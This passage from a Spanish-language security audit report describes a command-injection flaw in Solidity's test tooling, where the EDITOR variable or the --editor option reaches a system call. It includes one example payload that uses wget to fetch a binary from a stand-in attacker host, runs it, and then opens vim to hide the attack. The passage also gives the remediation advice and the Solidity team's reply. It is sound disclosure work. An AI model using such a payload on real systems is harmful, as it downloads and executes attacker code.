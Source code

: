 El problema con el código anterior es que la llamada al sistema está hecha sobre una combinación de dos variables, y una de ellas no está propiamente sanitizada. \textbf{m\_path} es el path para el contrato en cuestión pero \textbf{editor} proviene de una variable de entorno, la cual controlada por un atacante puede resultar en una ejecución de comandos.\\

Como un simple ejemplo de cómo esto puede ser explotado, imaginemos el caso en el que un atacante haya accedido de alguna manera a manipular el contenido de la variable de entorno \verb|EDITOR|, y lo haya modificado de la siguiente manera:
\begin{lstlisting}[language=bash,caption={bash version}]
    EDITOR='wget http://attacker.site/expl;chmod +x expl;./expl; vim'
\end{lstlisting}

Cuando un error sea encontrado en algún contrato, un aviso preguntará si se quiere \textit{editar, actualizar expectativas, saltear o salir}. En caso de elegir editar, el comportamiento normal sería que se abra el editor por defecto del sistema o uno especificado manualmente mediante \texttt{--editor}.\\

Teniendo la variable de entorno bajo control, esto resultaría en la ejecución del comando insertado, descargando mediante \texttt{wget} un \textit{\textbf{exploit}}, dándole permisos de ejecución, ejecutándose, y continuando con la edición del testeo utilizando el editor \texttt{vim} para evitar sospechas.\\

Notar que utilizar la opción \texttt{--editor} posee el mismo problema.\\

Se recomendó considerar utilizar un abordaje diferente que no utilice un intérprete directo. Por ejemplo \textbf{execv} o \textbf{execve}, que trabajan de manera diferente, realizando una bifurcación a nuevos procesos (\textit{fork} de ahora en adelante) y creando el \textit{command string} de una manera que elimina preocupaciones sobre \textit{buffer overflows} o \textit{string truncation}. Más información aquí\cite{CMUSystem}.\\

\textbf{Actualidad:} El equipo de Solidity respondió: “Cabe señalar que esto no es parte del código de producción. Es solo una parte de la infraestructura de prueba. Queremos ejecutar el editor, por lo que esto siempre resultará en la ejecución del código. Una contramedida sería verificar si `EDITOR` es la ruta directa de un archivo ejecutable y también imprimir el archivo antes de que se le pregunte al usuario qué hacer con respecto a la falla. Además, si un atacante tiene control sobre las variables de entorno en una máquina de compilación, no hay absolutamente ninguna manera de protegerse contra tal ataque. Una variable de entorno que casi con certeza conducirá a un exploit es, por ejemplo, ``CC": el compilador de C y probablemente haya toneladas más". La discusión continúa en el issue \textbf{\#5159}\cite{GHI5159}.\\

